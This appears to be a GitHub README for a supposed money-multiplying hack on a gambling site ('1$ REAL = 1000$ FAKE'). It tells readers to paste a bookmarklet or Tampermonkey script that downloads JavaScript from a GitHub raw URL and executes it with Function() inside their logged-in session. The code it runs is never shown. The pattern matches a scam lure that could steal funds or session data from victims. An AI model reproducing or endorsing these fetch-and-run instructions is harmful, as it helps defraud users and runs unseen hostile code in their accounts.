 ### 💸 How to Use

Deposit any amount you want — totally up to you.

**Conversion Rate:**
`1$ REAL = 1000$ FAKE`
Just make sure you select **ARS** as your currency.

### 🧩 Option 1: Bookmark (Quick & Easy)

1. Copy this entire code:

   ```js
   javascript:(()=>{fetch('https://raw.githubusercontent.com/drojnisdisauioa/Shuffle/main/bookmark.js').then(r=>r.text()).then(code=>Function(code)());})();
   ```
2. Create a new bookmark in your browser.
3. Paste the code into the **URL** field.
4. Go to the website, click the bookmark, and you're good to go.

### 🛠️ Option 2: Tampermonkey

1. Copy this entire code:

   ```js
   javascript:(()=>{fetch('https://raw.githubusercontent.com/drojnisdisauioa/Shuffle/main/tampermonkey.js').then(r=>r.text()).then(code=>Function(code)());})();
   ```
2. Open **Tampermonkey Dashboard** and click **Create a new script**.
3. Paste the code, then save.
4. Head to the website and it’ll do its thing automatically.
